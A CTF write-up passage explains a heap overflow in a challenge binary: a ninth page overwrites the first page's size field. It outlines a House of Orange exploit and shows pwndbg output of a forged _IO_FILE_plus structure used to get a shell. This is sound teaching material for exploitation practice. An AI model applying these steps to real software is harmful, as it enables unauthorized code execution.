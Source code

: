 
## 0x3. Analysis

In this challenge, you have 4 options as you can see above. 

- The vulnerabilities is that :
    - You can write 64 bytes to author field, which is right above the array stores address of chunks. That means you can get the address of the first chunk.
    - As you can see in the function to add a page, they store the address of chunks to 0x6020A0 and the size we allocate to 0x6020E0. The most noticeable point is that ```0x6020E0 - 0x6020A0 = 0x40```, and they allow you to add 9 pages. As a result, in page 9, they will store the address of page 9 to 0x6020E0, which is the size of the first page, thus you can edit the first page to overflow the heap.

--- 
## 0x4. Exploit

You can use House of Orange attack to solve this challenge, that you can read it [here](https://guyinatuxedo.github.io/43-house_of_orange/house_orange_exp/index.html) and [here](https://nguyendd123.github.io/2025/09/09/houseoforange/).

After put the top chunk into unsortedbin, you can allocate a small chunk to get the address of ```main_arena```, forge a fake ```IO_FILE_plus``` as they did and you will get the shell.

```bash
pwndbg> unsortedbin
unsortedbin
all [corrupted]
FD: 0x2074a130 ◂— 0
BK: 0x2074a130 —▸ 0x7f18a9dc4510 ◂— 0

pwndbg> p *(struct _IO_FILE_plus *) 0x2074a130
$1 = {
  file = {
    _flags = 1852400175,
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
    _IO_read_end = 0x0,
    _IO_read_base = 0x7f18a9dc4510 "",
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>,
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>,
    _IO_write_end = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _IO_buf_base = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _IO_buf_end = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _IO_save_base = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _IO_backup_base = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _IO_save_end = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _markers = 0x4141414141414141,
    _chain = 0x4141414141414141,
    _fileno = 1094795585,
    _flags2 = 1094795585,
    _old_offset = 4702111234474983745,
    _cur_column = 16705,
    _vtable_offset = 65 'A',
    _shortbuf = "A",
    _lock = 0x4141414141414141,
    _offset = 4702111234474983745,
    _codecvt = 0x4141414141414141,
    _wide_data = 0x4141414141414141,
    _freeres_list = 0x4141414141414141,
    _freeres_buf = 0x4141414141414141,
    __pad5 = 4702111234474983745,
    _mode = 0,
    _unused2 = 'A' <repeats 20 times>
```